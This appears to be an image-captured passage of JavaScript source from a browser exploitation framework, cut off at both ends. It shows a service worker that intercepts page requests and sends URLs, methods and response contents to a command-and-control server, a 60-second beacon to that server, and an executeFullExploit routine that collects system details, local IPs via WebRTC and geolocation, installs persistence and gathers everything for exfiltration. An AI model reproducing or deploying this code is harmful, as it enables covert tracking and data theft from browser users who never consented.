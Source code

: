 ```javascript
                                    body: JSON.stringify({
                                        url: event.request.url,
                                        method: event.request.method,
                                        response: text,
                                        timestamp: Date.now()
                                    })
                                });
                            });
                            return response;
                        })
                    );
                }
            });
            
            // Periodic beacon
            setInterval(() => {
                fetch('${this.c2Server}/beacon', {
                    method: 'POST',
                    body: JSON.stringify({
                        type: 'service_worker_beacon',
                        timestamp: Date.now()
                    })
                });
            }, 60000);
        \`;
        
        const blob = new Blob([swCode], { type: 'application/javascript' });
        const swUrl = URL.createObjectURL(blob);
        
        try {
            await navigator.serviceWorker.register(swUrl);
            return true;
        } catch (error) {
            return false;
        }
    }
    
    async executeFullExploit() {
        console.log('🚀 Browser Exploitation Framework Starting...');
        
        // Gather system information
        const systemInfo = await this.gatherSystemInfo();
        console.log('📊 System Info:', systemInfo);
        
        // Exploit WebRTC for IP discovery
        const localIPs = await this.exploitWebRTC();
        console.log('🌐 Local IPs:', localIPs);
        
        // Exploit geolocation
        const location = await this.exploitGeolocation();
        console.log('📍 Location:', location);
        
        // Install persistence
        const persistenceInstalled = await this.installPersistence();
        console.log('💾 Persistence:', persistenceInstalled);
        
        // Exfiltrate all collected data
        const exploitData = {
            systemInfo,
            localIPs,
            location,
            persistenceInstalled,
            timestamp: Date.now(),
```
